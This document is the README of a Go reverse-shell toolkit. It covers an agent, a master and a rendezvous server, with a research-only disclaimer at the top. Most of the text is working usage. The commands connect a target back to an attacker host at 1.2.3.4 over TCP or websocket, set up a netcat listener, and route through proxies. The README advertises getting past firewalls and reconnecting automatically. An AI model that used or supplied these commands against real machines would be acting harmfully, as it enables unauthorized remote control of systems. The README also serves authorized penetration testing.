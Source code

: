 **Disclaimer: This project is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal. My primary goal was to write some Go.**

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Compilation
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Agent
The `agent` is an application that will start one or multiple shells and allow a master to control them.

```bash
Usage:
  agent [OPTIONS] <command>

Available commands:
  stdin      Start a stdin agent
  tcp        Start a tcp agent and connect to a remote master
  tcpdirect  Start a tcpdirect agent and listen on a tcp port waiting for orders
  websocket  Start a websocketCommand agent and connect to a remote master or rendez-vous
```

### stdin
Absolutely useless. It's basically just piping *stdin* to a process on the same machine.
```bash
Usage:
  agent [OPTIONS] stdin
```

### tcp
Connect to a remote host and execute every command received from it.
```bash
Usage:
  agent [OPTIONS] tcp [tcp-OPTIONS]

[tcp command options]
      -A, --address= Address [$ADDRESS]
```

Use the `listen` master command on a remote host to wait for connection:
```bash
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777
```

### tcpdirect
Listen to a tcp port and execute every command received by a master.
```bash
Usage:
  agent [OPTIONS] tcpdirect [tcp-OPTIONS]

  [tcpdirect command options]
        -P, --port= Port [$PORT]
```

You can connect to it using netcat:
```bash
# On the agent (1.2.3.4)
$ agent tcpdirect -P 7777

# On the master
$ nc 1.2.3.4 7777
```

### websocket
Connect to a remote websocket and execute every command received.
The remote host can be a `master` or a `rendezvous`.
```bash
Usage:
  agent [OPTIONS] websocket [websocket-OPTIONS]

[websocket command options]
      -U, --url=  Url of the rendez-vous point. [$URL]
```

```bash
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777
```

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a `rendezvous` point instead of a master.

You can also connect to the outside using a proxy:
```bash
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777
```

## Rendez-vous
The `rendezvous` is an http server listening for `agents` and `masters`.
It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```bash
Usage:
  rendezvous [OPTIONS]

Application Options:
  -P, --port= Port [$PORT]
```

Start the `rendezvous` and the `agent`:
```bash
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777
```

Open a shell and send some commands
```bash
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$
```

# Master
```bash
Usage:
  master [OPTIONS] <command>

Help Options:
  -h, --help  Show this help message

Available commands:
  attach         attach to an existing session
  create         create a new session on a given agent
  list-agents    list all the agents available on a rendez-vous
  list-sessions  list all the sessions available on a rendez-vous
  listen         listen for agents to connect using websocket
```

## Todo
* learn how to write proper tests
* add scp-like commands
* improve logging messages
* read variables from environment
